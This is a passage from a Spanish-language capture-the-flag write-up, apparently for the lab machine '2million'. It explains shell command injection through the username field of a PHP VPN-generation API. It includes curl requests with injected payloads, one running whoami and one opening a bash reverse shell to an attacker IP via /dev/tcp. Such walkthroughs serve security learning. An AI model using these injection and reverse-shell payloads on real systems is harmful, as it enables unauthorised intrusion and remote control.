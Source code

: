 ```
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
...resto de la vpn...
```

Nos genera un archivo de configuración de VPN usando **OpenVPN**, probablemente esté usando por detrás un método como `system` (que ejecuta comandos de la **shell** desde el propio **php**). Posiblemente sea algo similar a esto.

```php
<?php
system("Comando-para-generar-vpn -x " . $nuestro_input . " --parametro");
?>
```

Este código no está sanitizado, lo que quiere decir que podriamos aprovecharnos de ciertos caracteres especiales para introducir un comando malintencionado. Por ejemplo:

Si nosotros mandamos el json `{"username": "delo; whoami #"}`, la linea resultante en php sería la siguiente.

```php
<?php
system("Comando-para-generar-vpn -x delo; whoami # --parametro");
?>
```

Que en bash sería:

```bash
Comando-para-generar-vpn -x delo; whoami # --parametro
```

En esta línea primero se ejecutaria el `Comando-para-generar-vpn`, pero al llegar al `;`, bash dará esa línea por acabada y ejecutará lo que hay justo después: el comando `whoami`.

A demás, para asegurarnos de que no hay nada a la derecha que pueda modificar el comportamiento del comando que queremos ejecutar, pondremos un `#` para comentar el resto de la línea, lo que hará que bash lo ignore completamente.

Vamos a probar esto en la api.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; whoami #"}'

www-data
```

El campo ussername ha resultado ser vulnerable a una inyección de codigo. No nos muestra la vpn porque probablemente haya dado error ya que prescindía de los últimos argumentos que hemos comentado y la función `system()` no devuelve las respuestas del `stderr`.

Dado que tenemos ejecución remota de comandos, vamos a establecer una **reverse shell** para operar más cómodamente.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; bash -c \"bash -i >& /dev/tcp/10.10.14.48/1234 0>&1\" #"}'
```
